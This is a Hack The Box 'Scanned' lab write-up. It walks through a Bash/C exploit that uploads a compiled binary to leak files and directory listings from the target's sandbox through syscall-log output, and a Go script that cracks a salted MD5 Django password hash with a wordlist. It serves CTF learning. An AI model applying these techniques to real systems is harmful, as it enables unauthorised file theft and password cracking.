 # Hack The Box. Machines. Scanned

Machine write-up: https://7rocky.github.io/en/htb/scanned

### `exploit.sh`

This Bash script is used to list directories and read files from the server. It has a C program embedded because we need to upload a compiled binary to the server in order to exfiltrate the information.

First of all, to use this script we must provide some parameters:

```bash
function help() {
        echo "[!] Usage: bash $0 <host> <f|d> <path-to-file|dir>"
	      exit 1
}

host=$1

if [ "$2" = "f" ]; then
	      read_file=1
	      file=$3
elif [ "$2" = "d" ]; then
        read_file=0
	      dir=$3
else
	      help
fi
```

So we need to enter the host IP address where the web server is listening, then `f` to read a file or `d` to list a directory and finally the path.

After that, the C program is compiled. Then we upload it and filter the results as shown in the [write-up](https://7rocky.github.io/en/htb/scanned) (a bit enhanced here because of some edge cases):

```bash
res=$(curl $host/scanner/upload/ -sLF file=@exploit)

hex=$(echo "$res" \
        | grep execve \
        | awk -F = '{ print $3 }' \
        | sed 's/<\/pre>//g' \
        | awk -F x '{ printf "%16s\n", $2 }' \
        | tr ' ' 0)

echo "$hex" | xxd -r -p
echo
```

The file we upload is called `exploit`, which is the compiled binary from the C code.

For the C code, what's important to notice is that we need to output the information in parts of 8 bytes (the [write-up](https://7rocky.github.io/en/htb/scanned) shows how the information is exfiltrated). In order to do that, we have a function called `read_file`:

```c
void read_file(char* path) {
  unsigned long ret = 0l;
  char ret_string[8] = {0, 0, 0, 0, 0, 0, 0, 0};
  int fd = open(path, O_RDONLY);

  while (read(fd, ret_string, 8)) {
    ret = 0l;

    for (int i = 0; i < 8; i++) {
      ret <<= 8;
      ret += ret_string[i];
      ret_string[i] = 0;
    }

    log_syscall(ret);
  }

  close(fd);
}
```

Basically, it takes a file path and reads 8 bytes from it. The 8 bytes are stored in `ret_string`, which is a `char` array. In order to transform the string into a decimal number, we use the `ret` variable, where we shift 8 bits to the left and add the next byte of `ret_string`. Finally, we use `log_syscall` (from the machine's source code) to output the exfiltrated information.

To list directories we can output the listing into a file called `tmp_file` and then use `read_file` to exfiltrate the information. So this is the `main` function:

```c
int main() {
  DIR* dr;
  struct dirent *de;
  FILE* fp;
  int do_read_file = $do_read_file;

  if (do_read_file) {
    read_file("$file");
    return 0;
  }

  fp = fopen("tmp_file", "wb");
  dr = opendir("$dir");

  while ((de = readdir(dr)) != NULL) {
    fprintf(fp, "%s\n", de->d_name);
  }

  closedir(dr);
  fclose(fp);

  read_file("tmp_file");
  return 0;
}
```

Notice that `$do_read_file`, `$file` and `$dir` are not valid C variables but Bash variables. However, this C code is wrapped in a "heredoc" so we can use string interpolation in Bash to print the contents of those variables, so that the C code is valid and compiles correctly using this syntax:

```bash
gcc -o exploit -xc - <<- __EOF__
  // C code
__EOF__
```

An example of execution could be this one:

```console
$ bash exploit.sh d /
[!] Usage: bash exploit.sh <host> <f|d> <path-to-file|dir>

$ bash exploit.sh 10.10.11.141 d /
tmp_file
.
log
lib
..
proc
userprog
lib64
usr
bin

$ bash exploit.sh 10.10.11.141 f /proc/1/fd/3/../../../../../etc/hostname
scanned
```

### `crack.go`

This script is used to crack a hashed password in Django format:

```plaintext
md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf
```

This hash is composed of three parts (divided by `$`), which is parsed in the script:

```go
	full_hash := os.Args[2]
	splitted_hash := strings.Split(full_hash, "$")
	alg, salt, hash := splitted_hash[0], splitted_hash[1], splitted_hash[2]

	fmt.Printf("[*] Algorithm: \t %s\n", alg)
	fmt.Printf("[*] Salt: \t %s\n", salt)
	fmt.Printf("[*] Hash: \t %s\n\n", hash)
```

Once done, we open the wordlist file and begin computing hashes using the same algorithm and salt until we find a coincidende:

```go
	file, err := os.Open(os.Args[1])

	if err != nil {
		fmt.Printf("File '%s' not found\n", os.Args[1])
	}

	defer file.Close()

	scanner := bufio.NewScanner(file)

	for scanner.Scan() {
		password := scanner.Text()

		if crack(salt, password) == hash {
			fmt.Println("[+] Cracked:", password)
			break
		}
	}
```

The function that computes the hash is called `crack`:

```go
func crack(salt, password string) string {
	return fmt.Sprintf("%x", md5.Sum([]byte(salt+password)))
}
```

We can run it like this:

```console
$ go run crack.go
Usage: go run crack.go <wordlist> <hash>
exit status 1

$ go run crack.go $WORDLISTS/rockyou.txt 'md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf'
[*] Algorithm:   md5
[*] Salt:        kL2cLcK2yhbp3za4w3752m
[*] Hash:        9886e17b091eb5ccdc39e436128141cf

[+] Cracked: onedayyoufeellikecrying
```
